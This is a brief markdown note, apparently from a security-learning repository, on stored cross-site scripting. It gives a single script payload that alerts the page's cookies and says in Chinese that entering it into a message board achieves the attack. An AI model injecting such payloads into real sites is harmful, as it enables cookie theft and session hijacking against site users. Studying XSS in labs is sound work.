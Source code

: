 # Stored Cross Site Scripting (XSS)

```html
<script>alert(document.cookie)</script>
```

在留言板輸入就可以簡單達成
